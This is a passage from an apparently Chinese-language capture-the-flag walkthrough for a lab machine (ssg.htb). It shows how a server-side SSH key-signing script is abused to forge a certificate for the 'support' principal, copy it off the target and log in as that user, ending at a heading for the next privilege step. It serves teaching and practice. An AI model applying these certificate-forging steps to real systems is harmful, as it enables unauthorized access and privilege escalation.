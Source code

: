     
         
  
代码运行需要3个参数**public_key_file**、**username**、 **principal**。  
  
public_key_file  
是上面我们自己生成的密钥对中的公钥。  
  
username  
：和principal保持一致就可以。  
       
  
principal  
是对私钥签名后文件中的一个字段，指示的是登录名，以前文**users_key-cert.pub**为例，可以看到  
principal  
的值是  
zzinter  
。  
```
ssh-keygen -L -f users_key-cert.pub
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtmhnjluN6rzwp7YJHiaDlCpvQiaGocOdJxw2LT7uWblcyVRrEibvNamMnQ/640?wx_fmt=png "")  
  
             
  
代码还对**principal**进行了限制，只能**webserver,analytics,support,security**是四个字段之一。  
看似限制，实则提醒。  
        
  
我们在前面使用如下命令进行签名，该代码的功能一样，只是签名文件由服务器提供。      
```
ssh-keygen -s ca-itrc -n zzinter -I ident users_key.pub      
```  
  
  
经过测试使用如下面命令和用户获取**support**的私钥文件。  
  
**靶机中：**  
```
ssh-keygen -t rsa -C support@ssg.htb -f support
./sign_key_api.sh support.pub support support > support-cert.pub
mv supp* /tmp
chmod 777 /tmp/supp*
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtdHqPGNX2sBbHOJ8uPvqpQX2KlXliaJCPxlVqmAPMJ5epJRBCxibMDq8A/640?wx_fmt=png "")  
  
             
  
**Kali中：**  
```
scp msainristil@ssg.htb:/tmp/suppo* .
chmod 700 support*
ssh -i support -p 2222 support@ssg.htb
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtpHpBEN8ibVj2dH5yw6aia3cwUECGYmckicZ4qsyxXSYnkQ14eXv0TawqA/640?wx_fmt=png "")  
  
                 
  
**0006.zzinter权限**  
  